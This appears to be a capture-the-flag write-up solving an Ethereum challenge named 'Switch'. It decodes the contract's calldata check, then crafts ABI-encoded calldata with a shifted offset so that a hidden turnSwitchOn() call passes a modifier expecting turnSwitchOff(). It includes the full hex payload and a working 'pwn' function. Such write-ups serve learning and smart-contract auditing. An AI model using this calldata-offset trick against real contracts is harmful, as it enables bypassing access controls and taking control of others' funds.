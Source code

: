> Just have to flip the switch. Can't be that hard, right?

## Parsing the calldata

The only function that sets the switch on is:

```solidity
function turnSwitchOn() public onlyThis {
    switchOn = true;
}
```

This has to be called by the contract itself, via:

```solidity
function flipSwitch(bytes memory _data) public onlyOff {
    (bool success, ) = address(this).call(_data);
    require(success, "call failed :(");
}
```

To satisfy the modifier `onlyOff`, we want:

- `calldatacopy(selector, 68, 4)` to be `bytes4(keccak256("turnSwitchOff()"))`
- while `address(this).call(_data)` should point to `turnSwitchOn`

More precisely, the signatures are:

```js
await web3.eth.getStorageAt(instance, 0, (e,d)=>{console.log(d)});
// '0x00000000000000000000000000000000000000000000000000000020606e1500'
web3.utils.sha3('turnSwitchOff()').substring(0,10)
// '0x20606e15'
web3.utils.sha3('turnSwitchOn()').substring(0,10)
// '0x76227e12'
web3.utils.sha3('flipSwitch(bytes)').substring(0,10)
// '0x30c13ade'
```

As stated in [this article][openzeppelin-calldata], `calldatacopy` starts at offset `68`, which is 4 bytes (function selector) plus 2 words.

Let's run a naive query in Remix to log the `msg.data`.
For example, `abi.encodeWithSelector(0x20606e15, uint256(0x76227e12)` is:

```
20606e150000000000000000000000000000000000000000000000000000000076227e12
```

Which leads to the full `msg.data`:

```
0x30c13ade0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000002420606e150000000000000000000000000000000000000000000000000000000076227e1200000000000000000000000000000000000000000000000000000000
```

Which the parser sees as:

```
0x30c13ade                                                          // selector for "flipSwitch(bytes)"
0000000000000000000000000000000000000000000000000000000000000020    // offset of the input, 0x20 = 32
0000000000000000000000000000000000000000000000000000000000000024    // length, 0x24 = 4 + 32
20606e15                                                            // 4 bytes for the selector, as encoded with encodeWithSelector
0000000000000000000000000000000000000000000000000000000076227e12    // 0x76227e12 as a uint256, on 32 bytes
00000000000000000000000000000000000000000000000000000000            // padding
```

## Crafting malicious calldata

The offset of the `turnSwitchOff` selector is fixed.
Instead we can move the actual data of the call to another offset and ignore this section.

The goal is to send:

```
0x30c13ade                                                          // selector for "flipSwitch(bytes)"
0000000000000000000000000000000000000000000000000000000000000060    // offset of the input, 0x60 = 3 * 32, ie start after 3 words, 2 words after the original offset 0x20
0000000000000000000000000000000000000000000000000000000000000000    // filler
20606e1500000000000000000000000000000000000000000000000000000000    // selector for "turnSwitchOff()", ignored
0000000000000000000000000000000000000000000000000000000000000004    // count of bytes, 4
76227e1200000000000000000000000000000000000000000000000000000000    // selector for "turnSwitchOn()"
```

This can be achieved with:

```solidity
function pwn(address target) external {
    target.call(abi.encodeWithSelector(0x30c13ade, uint256(0x60), uint256(0), uint256(0x20606e15), uint256(4), uint256(0x76227e12)));
}
```

[openzeppelin-calldata]: https://blog.openzeppelin.com/ethereum-in-depth-part-2-6339cf6bddb9
